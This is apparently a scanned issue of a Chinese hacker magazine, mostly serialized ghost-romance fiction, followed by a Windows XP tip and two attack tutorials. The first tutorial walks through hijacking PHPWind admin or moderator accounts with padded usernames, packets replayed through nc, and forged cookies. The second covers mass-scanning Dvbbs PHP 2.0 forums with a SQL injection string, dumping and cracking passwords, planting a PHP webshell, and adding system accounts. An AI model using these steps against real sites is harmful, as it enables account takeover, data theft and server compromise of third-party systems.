接下来几天里，东方的感人事迹马上就传遍了整个校园，一时间大家有事请假都以奶奶即将病逝为由讨假借钱，结果遭到了老师的严厉封杀，最后有几位同学奶奶真的去世了，居然也没有请假成功。

两天后，东方和老四准时地坐上了开往辽宁的火车。看着飞速前进的火车，东方的心情和食欲大好，一路上不停地和MM搭讪，老四却一脸愁眉苦脸。东方连忙关心地说道：“老四，你没事吧？出来就开心些，别愁眉苦脸的。”

老四像是吃了炸弹似的说道：“有事，能没事吗？你NND是请假出来的，顺便老师还资助你，我可是旷课，有可能会被学校开除的。”

看着老四那个要吃人的样子，东方只好安静地守在笔记本旁，看着笔记本里那个女鬼的照片发呆。一夜过去了，火车终于到达了终点。老四带着东方坐了四个小时的汽车，终于来到了奶奶原来所在的山村。眼前的一切对于老四来说既陌生又熟悉，看着村里的一切都能想起小时候和小静在一起的欢乐，可如今这一切都不复存在了。

东方看着伤感的老四说道：“别这样，也许小静并没有死呢，或者她已经有男朋友，有着不错的工作，大把的薪水，或者她归于平凡，结婚生子，有份不错的工作呢。走吧，问问村民有没有她的消息。”

老四听话地跟在东方的后面，来到小静的家门前，只见院子里杂草丛生，就连屋顶的茅草都已经长得有一米多高了，到处都散发着凄凉的气息，多年的记忆也变得忧伤。

老四整理了一下思绪，和东方一起走到了远房亲戚家里。农村的空气很清新，散落在整个天地间的都是绿色的芬芳。来到老四的远房表叔家里后，院子里正弥漫着米饭的芳香。东方他们突然发现肚子开始咕噜叫了起来。

表叔看到了老四，几乎都认不出来了。一别经年，表现得极其热情，连忙把两个人让进了房间里，又吩咐表婶多炒了几个菜。菜上桌的时候，东方和老四就像恶狼一样，对桌子上的美味佳肴一顿风卷残云的扫荡，吓坏了表叔和表婶，大气也不敢喘地看着两个孩子。

“爸妈，我回来了。”随着外面的声音传来，房间里走进来一个漂亮清纯的女孩子，头发自然地散落在背后。让东方震惊的是，这个女孩子的眼睛里带着几分忧伤和冷漠，而这个眼神就出现过在女鬼小静的眼睛里。那样的眼神竟然是惊人的相似。

表叔笑着指着女儿说道：“这是你表妹，希若。”

还没等老四站起来说话，东方迅速地站了起来，嘴里还没咽下去的饭菜，支吾着说道：“希若，你好，我是东方，你表哥的朋友。”

希若冷漠地看了眼东方和老四，一脸冰冷地点点头算是打过招呼，然后就钻进了房间。

表婶尴尬地说道：“你们俩继续吃吧，这孩子这几年就是这样。”

东方木然地坐了下来，仍然不死心地看了看希若的房间。那样冷漠忧伤的眼神，在那一瞬间竟然让他莫名心痛了起来。良久，淡定地对表叔说道：“希若看起来好像很悲伤啊？”

老四笑着说道：“哪有你说的那么严重啊，我感觉她妹就是有点害羞，见到生人有点怕吧。”

表叔寂然一笑说道：“自从两年前她男朋友死了一直到现在，她就一直这样。我有时候看到她那眼神都害怕，好像要恨死谁一样。”

“难道不说我的事就那么难过吗？”希若突然出现在大家的背后，扔下这句话就跑了出去。东方和老四两个傻傻地看着希若离开的背影，然后转过身尴尬地看着表叔。

表叔叹息着说道：“你们不要见怪，继续吃吧，她一会儿就会回来了，不用理她。”

老四只好尴尬地笑了笑继续吃饭，但是东方却沉思了一会儿说道：“她好像对你有特别的怨恨？”

老四连忙捅了捅东方，然后笑着对表叔说道：“呵呵，表婶炒的菜真好吃。”

表叔的身体一震，双眼马上就红了起来，幽幽地说道：“其实不怪她，怪我，都怪我。小若和学校一个男孩子恋爱了。其实我一直都认为学习是最重要的，所以两个人那种感情真的无法理解。结果为了防止小若影响学习，暑假我一直把小若关在家里，不让她出门。那个男孩子每天都来我家门口等着我放小若出去见他一面，我不知道为何我就那么不开心呢。终于在一天下大雨，那孩子在路上遇到了一辆大货车，结果……”表叔说不下去了，眼圈红红的。表婶表示安慰地拉着表叔的手。

东方突然明白了希若和女鬼小静眼睛里的冷漠来自于什么。那是失去亲人的疼痛和悲哀，那是绝望的感染，那是一种仇恨的冷漠。

东方放下了碗筷，笑了笑说道：“我出去一下，逛逛，顺便打听下这附近谁家里有网线。”

表叔连忙收起悲哀说道：“别去找了，整个村子里就咱家有宽带，这是给希若安装的。她每年暑假回来都会用的。这不是，唉，学校说希若有忧郁症，所以让她回家休息半个月。”表叔最后的表情是无尽的伤怀。

东方依然坚持要出去一下，走在午后的阳光中，东方一直在村子里转圈，不知不觉竟然走到了村外的小河边，没想到却在河边看到了希若。

希若目不转睛地盯着缓缓流水的河面，目光中变得温柔而又伤感。偶尔微风轻轻地吹拂着希若的发梢，像极了天上的仙女，只是哪个仙女会这样的忧伤？

## 朦隐仙踪

东方坐在希若的身边，转过脸凝视着希若说道：“你好，我是刚才那个……”

没等东方说完，希若一脸不耐烦地扭过头，厌恶地说道：“滚开！”

东方呆滞地愣在那里，不知道是该听话地滚开，还是没皮没脸地呆在这里。最终他不但选择了没皮没脸，并且还没皮没脸地说道：“你别这样，我不是来追你的，追我的女孩子有的是，什么气质的都有，所以我不会被你吸引的。我来这里只是想跟你了解点情况。”

希若差点没被这个自大的家伙气死，狠狠地瞪了东方一眼，站了起来准备离开。东方也紧张地站了起来，继续说道：“希若，不要走，我只是想问问你，你们前街的那个小静你还有印象吗？”

希若并不理会东方。在她心中，除了死去的男友，任何人的死活对她来说都是无关紧要的。此刻的自己好像是一具行尸走肉一样，生活、梦想毫无意义。小静那个文静开怀的女孩子在她心目中的样子渐渐地由模糊而变得清晰，那是她童年最好的玩伴，但是她却不愿意和别人谈论这些。

东方更加焦急地说道：“她死了。”

希若的心颤抖了起来，死对于她来说是多么可怕的字眼，而她也实在无法想象那个清秀的女孩子会死掉。但这一切与自己又有什么关系呢？自己和最爱的人不也一样天人永隔了吗？

东方见希若仍然无动于衷，不禁开始在心里感到反感，但依然不想放弃地说道：“可是我能看见她，我能和她说话，她给了我一个谜团，让我无法猜测。”

希若冷笑地看了看他，转过身看着东方，冷漠地说道：“你说她死了，而且你还看见了她？你是怎么做到的？”

东方迟疑了一下，明白希若误会了自己会通阴，想利用自己见男朋友，简直就是在开国际玩笑嘛，所以连忙解释道：“我不会通阴，我只是想知道怎样来摆脱小静的束缚。”

希若冷笑地看着东方说道：“我就知道你在撒谎。我不知道你是什么目的，但是请离我远点。小静前几天还来找过我，所以别在这里编造荒诞的事情了。”

前几天还找过希若？东方突然觉得这趟是来对了，紧抓着希若不放地说道：“请相信我，近几个月来我一直都被小静困扰着。我不知道怎样才能摆脱这样的束缚，也不知道她是什么目的。就算她想让我帮她，但是这样不声不响的，我也帮不了她啊？”

希若看了看东方，淡定地说道：“你是小静什么人？”

东方迟疑了，半天没缓过神来说道：“不，不是什么人啊！所以我才纳闷为什么她来找我呢？”

希若不知道为什么冷笑了起来，不屑地说道：“所以，你这趟来是为了自己能摆脱束缚？”

东方沉思了一下，到底自己是为了什么呢？如果单纯是为了躲避小静，那么会有很多办法，至少他没有竭尽全力去躲避这场灾难。或者真正驱使自己走到今天这一步的是那份猎奇心，还有小静藏在人面背后的悲哀吧。东方思索了一会儿，非常认真地对希若说道：“更多的，我是想知道这事情背后的真相。”

希若看着东方的眼睛，那里没有谎言也没有虚伪，那张坚毅的脸上带着倔强和不屈。这样的表情是希若多年都没有见到过的，也是她多么想再次重温到的。她慢慢地走近东方，颤抖地伸出白皙的手，轻轻地拂过东方的眉眼直至下颌，那样的温柔，那样的美好。几年前绚丽的爱情、缠绵的快乐都在指尖缠绕、纠结。呢喃地念叨着梦里无数次呼唤过的名字。冷风轻柔地拂过，吹冷了希若心底燃起的希望和热情。眼睛里闪亮的光芒在瞬间变淡，直至被冷漠所取代。希若还是冷酷的希若。她收起手，心痛地说道：“我走了。”

留下东方一个人站在原地，错愕地感受着刚才的温存，一时还不能自已。望着希若消失的背影，是那么落寞与凄凉。心跳竟然有那么一瞬间差点就停止了跳动。他知道希若在那一瞬间认错了人，但东方仍然怀念希若指尖留下的芬芳，耳旁仍有她轻柔温热的呼吸。她失去的是怎样的爱情，可以这般炽烈，这般痴狂。等东方在这场温柔的梦乡中醒悟过来的时候，希若已经走得很远。东方只好叹息着走了回去。

看到东方回来了，老四连忙走了过去，一脸失望地说道：“我问过表叔了，他们说自打小静搬走后就没有过她的消息。”

东方望了一眼希若紧闭的房门说道：“那我们明天去你以前的中学看看吧。”

那里似乎是老四的伤心地一样，他垂下了头，小声地嘀咕道：“去干什么？我一辈子都不想去那个充满悲伤的地方了。”

东方无奈地看了看这个傻瓜，真不知道这个家伙是不是脑袋进水了，为什么面对所有的问题都喜欢逃避呢？

晚上的饭菜特别丰盛，希若也面无表情地走了出来，坐在桌子旁边一声不响地吃着饭。东方看到希若面无表情的样子，心里很难过，在他心里始终都无法忘记下午的那一幕。可是希若却又让他觉得自己是那么自作多情。

晚上，夏天的村庄里是青蛙若隐若现的啼叫声。东方实在睡不着，只要闭上眼睛就能看到希若下午那温柔的一幕，每每这样都感觉心脏不能正常跳动了。看着身边的老四早已经跟死猪一样，真是感叹这个家伙到底长没长脑袋呢？

东方爬了起来，走出房间，惊讶地发现表叔和表婶竟然站在院子中央，盯着大门叹息着什么。

“表叔，怎么了？”东方好奇地看着这两个人。

表叔叹息着说道：“希若不相信她男朋友已经死了，说什么都要回到出事地点去看看，说可能会遇到她男朋友。”

东方一听就知道希若可能听到了今天白天自己的话，让希若相信人死了会有鬼魂的存在。这下可糟了，都这么晚了，万一一出门出什么意外该怎么办呢？东方不知怎的，突然扔下这两个老人，一个人却顺着老人指引的方向走了出去。

清冷的月光散落在干净的街道上，希若一个人孤零零地站在道路中间，期待着希望可以出现。

“希若，你没事吧！”东方着急地问道。

希若并不回头，呆呆地看着这条路的远方，声音冰冷得像是从地狱传来的一样，呢喃地说道：“你说过的，你看到了死去的人，为什么他还没有出现？”

东方愣了，在这样的夜晚，一个人用这种冰冷的语调说话，还真是挺吓人的。东方急着说道：“希若，我只是说我看见了小静的灵魂。但是也许这一切不过是我的幻觉而已。”

希若转过身，脸上挂满了泪痕：“不，我知道小静死了，但是前几天我确实是看到小静了。如果你看见她是幻觉，那么我坚信我绝对不是幻觉。那样真实的人，像是孩童时一样，她还是那么文静，却也格外忧伤。”

“真的，女鬼小静是真的存在的？”东方有些恐慌地看着四周，冷风吹过，浑身起满了鸡皮疙瘩。

“为什么他们不会出现，他不出来见见我，哪怕是和我见最后一面，说一句话，我死都知足了。”希若终于哭了，在月光下显得格外悲凉。

东方轻轻抚摸着希若的头发，心疼地将这个可怜的女孩搂在怀里，一遍遍温柔地说道：“其实你该释怀了，就算再怎么坚固的爱情也一样无法经过世俗的洗礼。命运的安排，即便是悲哀，也要勇敢面对。你这样对待自己，会让他也心痛的。也原谅你的父母吧，如果有一天你失去了他们，那么你会发现现在的你有多愚蠢。别做让你自己后悔的事情了。”

东方不知道希若到底有没有听进自己的话，她只是哭，大声地哭。用一种近似嘶吼的感觉，像是受伤的精灵，哭得东方心都碎了。

时间在点滴中流逝，希若不好意思地离开了东方的怀抱，眼睛肿肿的，目光中有躲闪有娇羞，像是月光下的精灵，神圣而美好。

（未完待续）

### 网游仙踪

#### 鬼网超生（六）

#### 流泪的季节

海边一粒沙

东方说道：“知道为什么有些大雁飞不过那宽阔的湖泊吗？”

希若迎着月光，迷茫地看着东方，显得有些不安和彷徨。

东方接着说道：“因为彼岸已经没有了等待和救赎，就算是飞过去了也是溺然的心碎，那爱情也会逐渐地衰老和死去。”

……

（正文为三栏排版的连续小说文本，内容从“东方说道：‘知道为什么有些大雁飞不过那宽阔的湖泊吗？’”开始，到页面右下角“这时候东方才发觉这句夸赞不过是一句客套话”结束。）

## 侠隐仙踪

而已，无论如何现在的自己都无法和帅气画上等号，因为那半张脸跟猪头似的。心里不由叫苦不迭地发怒，希若这个丫头下手也太狠了。希若尴尬地吐了吐舌头，随后甜甜一笑：“真的，现在胖胖的，很可爱。”东方无奈地沉默了起来，女人夸了你，那么你就是可爱；要是男人夸了女人，那么这个男人就会被女人骂成是禽兽，猪狗不如。所以男人永远不要和女人讲理，也不要和女人动用武力，因为无论女人是如何柔弱，面对男人的时候她们却永远是胜利的一方。希若拂去椅子上的灰尘，安静地坐在房间里，看着窗外的月光说道：“你相信这个世界有来世吗？”东方满脑子里都是小静和老四之间的非正常关系，突然希若这么一问，让东方有些应接不暇，沉思了一会儿说道：“别傻了，我不相信有来世，所以要好好地活在这一世，即便没有来世也就补不了这一世的遗憾，而且谁也无法保证来世有没有遗憾。”……（正文为多栏连续小说段落，内容从左栏延续至中栏与右栏）

> 东方法哲：
>
> 你好！
>
> 当你来到这里的时候，说明你已经是一个心思非常缜密的人了，不过你要走的路还有很多，下面我要给你一个建议，这里面有天宏公司的介绍和资料，我希望你能够熟读并了解所有的内容，然后里面有你的一张休学申请书，也就是说从现在开始你已经休学了。不过不用担心，你的毕业证，这当然也是一份真正的证件，是你们学校承认的。接下来你要到这家公司去应聘高级主管的职务，当然这个是有很大的困难的，不过我希望你能做到，否则接下来你的事情会很麻烦。不过假如你按照下面描写的流程走，我想你还有百分之一的机会。

看完这封信后，东方鼻子差点被气歪了。接下来的正文继续叙述人物之间的对话与冲突（包括希若、东方、老四及其家人等），并在右栏末尾继续延伸至页面底部。

走向了早已经安排好的房间。

老四愤愤地看着陌生的东方，良久才怒吼道：“你发什么神经啊，少装纯洁了。”接下来大家就用沉默代替各自的心事，这一觉直睡到了天亮。早上老四醒来的时候看见东方已经收拾好了东西……（上半页为连续正文，多栏排版，至“（待续）”结束）

### 鬼网超尘（七）

海边一粒沙

其实东方带回希若之后，就觉得很后悔，一夜之间确定的感情是多么幼稚呀。

东方实在不知道该怎么安置希若，所以只好把她带回自己的出租房里……

“回来了，洗手，吃饭！”周欣一脸微笑地说道……

“你好，我是希若……”希若从东方的身后钻了出来，大方得体地说道。

“我……好。”周欣有些错愕地说道：“我是东方的女朋友！”

……（下半页为连续正文，多栏排版，延续至页末）

“丁，我怎么不是人了。”

李智愤恨地说道：“她的男朋友刚刚被害了，而作为表哥的你居然这个态度，你简直一点人性都没有。”

“男朋友被害？表哥？这都哪跟哪呢？”东方刚要开口去问，就听希若边吃着菜边说道：“笨蛋，这个女人在男友被害后认定了这个警察，为了和这个警察能有个私人的空间，所以就搬来你这儿，怕这个警察误会，只好说你是她的表哥喽！”

……

“是啊，你算看出来了，可是我却看不出你了。”东方沉默地看着希若。

最终的结果，就是东方沉默地拎着希若的行李，然后直接把希若和李智都扔在了门外，然后怒吼着说道：“别烦我，都给我滚。”

……

“爸爸，爸爸，你疼吗？宝宝给你吹吹！”一双温暖的小手覆盖在东方冰冷的额头上，水灵漆黑的眼眸带着几许担忧。

东方温柔无力地说道：“乖，爸爸没事，只是想好好地休息一会儿。乖宝宝，出去玩吧！”

……

“爸爸，爸爸，救救宝宝，爸……”沙哑而又稚嫩的呼喊在外面响起。东方强忍着晕晕的头疼，飞奔了出去。女孩子的样子是模糊的，连那个挟住女孩子的身影也是模糊的。东方奋力地奔跑着，想要抓住女孩的手，但是那速度是一个病人无法超越的。

一阵紧急刺耳的刹车声响了起来，东方最后一眼看到的是女孩子破碎的小手，向他倒下的方向抓伸着，但大脑却一片空白……

连女孩的哭喊都没有了声音。世界一下子好安静，但是他的心却乱了。

“啊……宝宝，宝宝！”东方突然在床上坐了起来，浑身都是冷汗，打湿了衣服。女孩？车祸？为什么突然会做这样奇怪的梦呢？那个女孩子叫自己爸爸，但是为什么自己的记忆中从来就没有这个小女孩呢？

东方摸了摸脸上的水迹，是汗，但又更像是泪。东方洗了把脸，已经是凌晨两点半了，打开久违的电脑，连接上木马，在那个公司的电脑里的东西依然和上次一样。只是当东方在硬盘里查找的时候，发现上次下载的照片却不见了。硬盘里除了系统文件外，什么都没有。有几个路径很奇怪，但是查找的时候却发现什么都没有。东方关闭了远程控制的连接，时间太久了会被发现的。

……

东方感觉到希若在颤抖，连忙摸了摸希若的额头，她在发高烧！虽然这个女孩子是一个谜，带着危险的气息，但是东方宁愿相信她过分聪明，而不是一个处心积虑的阴谋家。心疼地把她抱回到房间里，轻轻地放在床上，然后拿出退烧药给希若吃了下去，再然后就一直看着这个精灵古怪的女孩睡去，才走出了房间。

来到学校，果然老师把毕业证送到了他的手里，然后用极其特别的眼神看了东方一眼。东方觉得那个眼神很怪异，难道老师发现上次去东北的事是假的了？但她为什么不直接了当地问自己呢？难道是因为借她钱没还……

反正东方拿着毕业证灰溜溜地离开了老师的办公室。至于还钱的事，老师没有提，自己也没有提。没钱提个P啊？

回来的路上碰到了周欣，手里抱着一堆的东西，一脸憔悴地走在学校的小路上。当看到东方的时候，冷哼了一声，扭着高傲的头大步地走开了。弄得东方摸不着头脑，才呢喃地说道：“我也没惹她啊？”

……

当上帝为你关闭一扇门的时候，就必然会给你再开启另一扇门。刚刚还遗憾看不到哥们呢，一推开家门，就看到哥几个跟一群发了情的色狼一样，紧紧地围在希若的床前。

……

“神经病，昨天晚上不知道为什么打了个雷，把精神病医院北墙给打出个窟窿，他们都是从那个窟窿跑出来的。别怕，一会儿我给院长打个电话啊！”东方没好气地看着几个人。

希若还真相信了，重重地点点头说道：“嗯，这回给精神病医院提个建议，北墙修结实点。”

……

东方微笑着问老二：“对了，我离开这几天，咱们学校发生了什么事情啊？”

老二沉思了片刻说道：“李老师生孩子了，张老师掉了颗牙，据说是壮骚扰打扫卫生的李婶奶，被人家一拳头给揍的，还有隔壁班的小四眼……”

东方无奈地说道：“行了，够了，别说了，我问你周欣的男朋友是不是出什么事了？”

老三恍然大悟地道：“是啊，好像现在还昏迷着呢，叫人一砖头给拍到脑袋上去了，不过砖头上没指纹，而且出事地点是在这个王八蛋的出租屋里。挺严重的，不过也挺解恨！”……（中间正文略）……整夜东方都听见一个小小的女孩子，一声声地叫着爸爸，那一刻他看到了几年前惊心动魄的一幕……（待续）

### 鬼脸超压（八）

#### 白莎人与斯赛公司

海边一粒沙

面试是一件很繁琐的事情，东方刚才还在电梯里不停地摆弄着自己的着装，这次面试给他的感觉有些胆战心惊。……（中间正文略）……女人示意地一笑，然后关上门就离开了，只留下东方一个人面对着一台摄像机。天啊，恐怕……

## 陨隐仙踪

公安局、国安局也不会这样吧，这到底是一个什么样的公司呢？东方的心里七上八下的，很后悔来面试，早知道是这样的话还不如不来，被鬼杀死也总比来这个地方要好一些。虽然东方的心里疯狂想着，但表面上还是尽量地保持着冷静。

“你好，东方浩哲。”一个不阴不阳的声音响起的时候，把东方吓了一跳，虽然没有表现出来，但是东方仍能感觉到心跳的速度。

“你好，神秘的面试官。”东方一边尽量保持冷静，一边微怒地讽刺着。

“年轻人，火气很大啊，不过你是来这里第一个这么镇静的人。”面试官的话总让东方有种压迫感，但是却不知道这是为什么。

“如果没有诚意让我加入贵公司，那我就要告辞了，不然就请出来见我。”东方站了起来，准备离开这个让他极不舒服的鬼地方。

“呵呵，你想得太简单了，你今天来这里要么就是面试成功，要么就是死于非命。你以为自动弃权就能活着走出去吗？”对方的声音没有任何的语调，但是却让东方觉得全身冰冷。

“我想活着，但是却希望有自尊地活着，我们之间现在还不是雇主与员工的关系，所以你得尊重我！”东方心里一阵发愁，但仍然面对着监控器认真地说出了这样一番话。

“你很有胆识，也很有思想，虽然在这里没有人权也没有法律，不过就冲你这份胆识，我答应出来见你。”这话说完后四周一下子变得很安静，让人一时有些不适应。

东方重新坐回了椅子上，心跳的速度不断加快，连呼吸都变得很不正常了，在刚才那一刻东方突然觉得人的生命特别地珍贵。

门打开了，首先映入眼帘的是一个坐在轮椅上的老人，说他是老人其实有些过分，因为他的皮肤没有一丝的褶皱，白皙透明，但是头发、眉毛却都是银白色的，乍一看就和一个年近古稀的老人没什么区别。紧接着，东方又看到了推着轮椅的小静，那个曾经不断骚扰他的女人。

……（正文为长篇小说内容，版面为三栏连续段落，含大量对话与叙述，无列表、表格、插图、引用块或代码块）……

“喂，告诉我，我是谁……”东方喊道，但是白发人却没有停下轮椅，东方想跟上去问个清楚，但是门却锁得紧紧的。

“咔哒”一声门开了，那个漂亮的女前台安妮推门走了进来，一脸鄙夷地说道：“这扇门是向里开的，你老是在外撞干什么，除非门坏掉你才能出去，不过这辈子你不用想了。”

……

在这里东方不知道自己呆了多久，没有人权也没有自由，寂寞随时都如潮涌一般袭来，总会让人措手不及地伤怀。

“寂寞和孤独能让人颓废悲伤，摧毁了灵魂，摧毁了信仰，我要试着挣脱，哪怕最后的结果是死了。”

厕所是这个地方唯一人性化的地方，因为在厕所里没有监控器。东方取出刚才的黑色塑料袋，里面是一块U盘，精致而小巧。

“或者，你是一个和我同样受到没有自由折磨的人，见不到家人，见不到外面的阳光，你来的目的永远都无法实现，你不知道自己操作的软件是做什么用的，或者你是多年以后的我，但是不要忘记你的宗旨，摧毁一切邪恶。把这个U盘插到第三台电脑的第二个USB插口上，你将有机会得到秘密，或者逃走。”

东方好像在哪里见过这样的字，但是现在的他无暇考虑这些，只是不停地思考着：这些是不是真的，是不是那个白发人在试探自己呢？虽然东方觉得生命、自由、前途都无足轻重，可是有机会活着离开的话，为什么又要选择死去？东方决定试一下。

监视器继续缓慢而有序地转动着，东方迅速地把U盘插在了第三台电脑上，几台监视器突然失灵了，并且发出了刺耳的警报声。东方回头看了看门外，所有的大门此刻都敞开着，电脑显示器上出现了一个对话框：“是否连接所有车间？”

是逃走还是留下继续这个秘密？就在这一瞬间东方的大脑里不停地闪烁着这样的记忆，好像很多年前这样的情景也曾出现过一次，似乎那次自己是选择了夺门而出。是的，那是选择自由的唯一方式，但是也让自己错过了很多，至少那个孩子在自己的心中就成了永久的谜团。

东方快速地点了“是”，瞬间电脑的屏幕上都变成了监控器的画面，里面是无数软件在杂乱无章地操作着，地面上、滚动的皮带上到处是白色的粉末。白发人惊恐地出现在了视频中，东方不知道为什么，熟练地操作起了U盘上的屏幕录像专家，把屏幕里的一切都录制在了U盘上。直到屏幕变黑了，房间一下子都沉浸在了黑暗之中。

东方凭借着依稀的记忆，迅速拔掉U盘，冲着大门飞快地跑了出去。刚跑出去没多远，东方在黑暗中就听到对面传来了一阵细微有序的脚步声，东方不敢再往前面跑了，可是在后面就要退回到办公室了，怎么办呢？难道真的要死在这里吗？

“跟我来！”一个女人低沉的声音在东方耳边响起，然后一双温热的手紧紧地拉住了东方。东方没有丝毫意识地紧跟着这个神秘的女人奔跑着，黑暗中那女人就像是长了一双夜视眼一样，轻松快捷地躲过了一个个的障碍。但是后面的追兵也不是傻瓜，一步步地跟了过来。

前面那女人一脚踹开了一扇门，外面是晴朗的天空，有些不适应的东方忙用手遮住了刺眼的阳光，十几秒钟后才适应这晴朗的天气。这时，东方才看清在前面拉着自己的是小静，那个神秘又可恶的女人。

……

东方想骂几句，但是后面紧紧相逼的追兵却又时刻提醒着自己，现在可不是追命要债的时候。小静一直拉着东方跑到了天台的边缘，东方这才意识到自己是在哪里。低下头看着深不见底的楼下，东方感觉到自己的腿肚子都在转筋。

“你们无路可逃了！”那个白发人坐着轮椅出现在了小静和东方的面前，而他的身后跟着十几个手拿冲锋枪的蒙面人……

“东方是卧底这我可以理解，但是小静，你为什么也要背叛我？”

“少废话，别以为别人不知道你一直都在做什么……”

……

“我不认识你姐姐，我也不是什么警察，我……”

还没等东方说完，只感觉身后一股风，接着他被小静给踹了下去。看来遇见小静的最终结果都只有一个——死亡……

耳边呼啸的风，眼前飘忽片段的记忆，东方紧紧地闭上了眼睛。

（待续）

## WindowsXP小技巧

### 直接彻底删除文件

其实很多情况下放到回收站的东西我们会不再理睬，所以为了免去清空回收站的步骤，可以做如下设置：开始→运行，输入“gpedit.msc”，定位到：用户配置→管理面板→Windows组件→Windows资源管理器，在右边栏找到“不要将已删除的文件移动到回收站”，双击并启用。

另外一种方法是：直接右键点击回收站，选择属性，在全局设置中选中“删除时不将文件移入回收站，而是直接删除”。如果你已经按照上一种方法设置，那么所有的选项将为灰色。

### PHPWind 管理员权限漏洞之利用

近良

前段时间网上曝出了 PHPWind 的最新漏洞，这几天抽空好好地研究了一下，经测试发现的确可以注册和管理员用户名一样的用户。该漏洞主要是由于 Mysql 会舍弃没有用处的 ASCII 129-255 而造成的，我们可以构造一个和某个管理员名字一样的 ID，再加上一个无效的 ASCII 码进行注册，表中就会出现一个一样的用户名，从而获得前台权限。

图1

以上就是关于该漏洞的简单说明，我们首先注册一个拥有特殊字符的用户名（一般就是管理员或者版主的用户名后面加上 ASCII 129-255 的特殊字符），然后用这个用户名登录。通常情况下用户是不能直接登录的，因为查询时返回一条记录，这也就是为什么要利用工具保存 COOKIE 后再登录的原因。成功登录后，程序就开始按上面的用户名方式来验证权限。

图2

下面来看看我的详细利用过程。首先是注册抓包，进入 PHPWind 的注册页面填写信息后提交，在 Winsock 中抓到 POST 数据包（GET 是下载的，POST 是提交的），如图1。右键导出数据包后修改字段，关键是用户名一定要是有一定权限的用户（如管理员或版主），修改后继续提交验证。

图3

## 一个人的战争

少的字符数。当然也可以把提交的数据保存到一个文件里，然后看它的大小（字节数）来修改 Content-Length 的数值，如图2。

假设我注册的用户名是 jiliang，而管理员的名字是 jilianghou，我将 jiliang 改成 jilianghou/cl（也就是在管理员用户名的后边加上 ASCII 129-255 的特殊字符）后，就需要在 Content-Length 的数值中 +6，因为 jilianghou/cl 比 jiliang 多了六个字节。

大家注意我在图中选中的区域，那就是我们要修改的地方，修改后由于增加了三个字符，所以还需要修改一下 Content-Length。然后直接使用 NC 进行提交就可以得到系统提示注册成功的消息了，如图3。关于如何使用 NC 进行提交，可能还有一些菜鸟不熟悉，我简单说一下，提交的格式就是“nc IP 端口<c:\nc.txt>ok.html”，其中的 nc.txt 就是我们修改后的那个数据包文件，而后面的“>ok.html”就是把提交的结果输出到“ok.html”，以方便我们查看，如图4。

接下来就是如何利用返回的信息来构造登录了，我利用的是个比较垃圾的方法，如果大家还有别的好方法的话，也希望能够共享出来哟！我们只复制返回的 cookie 里的“49860_winduser=...”，如图5。然后修改里面的数据，修改成如图6所示的样子，主要是修改两个地方，添加一个设置 cookie 的代码：

```html
<script>
document.cookie = "49860_winduser=BQ...";
</script>
```

接着就是修改跳转的地址，将原来的“<meta http-equiv='refresh' content='1;url=./index.php'>”修改成你想直接跳转的地方，比如“<meta http-equiv='refresh' content='1;url=http://10.1.41.248/phpwind6/index.php'>”，最后直接访问这个页面就可以使用这个帐号登录了。

我再简单说一下修改 cookie 的其它方法，因为上边的方法对于初学者而言可能不是很容易理解。进入相应的页面，然后在 IE 的地址栏输入“javascript:document.cookie%20=%20'49860_winduser=...;expires=Fri,%2012-Jun-2009%2008:46:28%20GMT;'”，然后回车，再刷新就可以了，如图7。这种方法更简单吧，如果不出意外的话，我们就可以登录成功了，如图8。

表面上看我们的权限是很低的：等级是“新手上路”，帖子数是0，但是当我们进入 baker 拥有版主权限的页面，就会发现一样拥有了版主的权限，如图9。

详细的利用方法就介绍完了，个人认为关于 cookie 的利用并不是很好，如果大家还有更好的方法也请提出来。在网上也曾有牛人说版主权限也可以拿到 WEBSHELL，关于这个我倒是没有认真地去研究过，如果有谁会的话，别忘了一定要共享给我等小菜哟！

> （文字中涉及到的工具 Winsock、NC，已经收录在光盘中）

## 跟小菜学来玩动网 PHP2.0 漏洞

黑侠（Black Mask）

相信看过第四期“千洞之网——动网又出新漏洞”一文的兄弟们，都会使用 `dvbbs_php2.0_fucker` 来拿动网 PHP2.0 的 WEBSHELL 了吧，不过那个工具不是太好用，今天我再来给大家介绍一款更为简单易用、界面也更漂亮的工具——动网 `php2.0_爆密码工具V2`。至于如何查找到论坛 PHP2.0 的漏洞我就不多说了，在四期的杂志中有详细介绍。为了加快查找的进度，我选择了使用“网站猎手”，关键字使用的是 `powered by dvbbs.php 2.0 2000 2006`，在“可利用页面或文件”里插入 `boardrule.php?groupboardid=11111111/**/union/**/select/**/version()/*`，如图1。

然后点击“搜索”，再点“获取网址”，然后再点“下一页”，尽量多找一些网址，这样机会也会更大一些。最后选择“整理网址”，好了，选择“载入网址”来进行检测，不一会儿检测结果就出来了，如图2。不过你也别高兴得太早了，不是检测出来的网址就一定存在漏洞的，我们还要一个个进行访问。

在检测的结果里任意选择一个网址，点击右选项“访问”，如果只出来一个“版规和导读”这几个字，其它的啥也没有，那么就说明这个站点已经修复漏洞了，如图3，我们接着找，直到看到如图4所示的显示，就可以了。

复制这个网址，打开“动网_php2.0_爆密码工具”，在“攻击网址”里粘贴论坛地址 `http://www.***.com/bbs/`，然后点“爆前台密码”，好了，成功地爆出了前台用户名和密码。

我们再点“导入MD5”，接着再点“MD5解密”，一些相对简单的密码就能马上被破解出来，从而让我们省去了还要到 `www.cmd5.com` 这类网站上去破解了，如图5。再点“爆后台密码”，同样也成功地爆出了后台用户名和密码，再“导入MD5”，再“MD5解密”，密码也破解出来了，操作很简单吧，如图6。

## 一个人的战争

怎么样？是不是比 `dvbbs_php2.0_fucker` 的使用更简单明了。既然前后台的用户名和密码都有了，我们就开始拿 webshell 吧。我再简单介绍一下如何在后台拿 SHELL。先在前台登录，用户名 admin，密码 admin888；登录成功了，如图7。然后点“后台管理”，输入用户名 admin1，密码 5201314，成功地进入了后台，如图8。

点击“外观风格”，选择“风格界面模板总管理”，新建立一个模板，在中文名称和英文名称随便输入，比如 blackmask，如图9。新建模板成功，再来编辑我们刚才新建的 blackmask 模板，在这里就可以输入 PHP 大马或 PHP 一句话木马了，我直接输入了 PHP 大马的代码，如图10。

最后保存模板，完整路径是“http://www.***.com/bbs/templates/default/blackmask.tpl.php”，赶紧打开看看吧，WEBSHELL 出来了，如图11。看看能不能执行命令，随手输入“netstat -na”，命令成功执行，如图12。

连 3389 都开了，省得我们麻烦了。再输入命令“net user”，也可以执行，那么就新建一个用户看看，输入命令“net user hack hack /add”，没有成功，如图13。

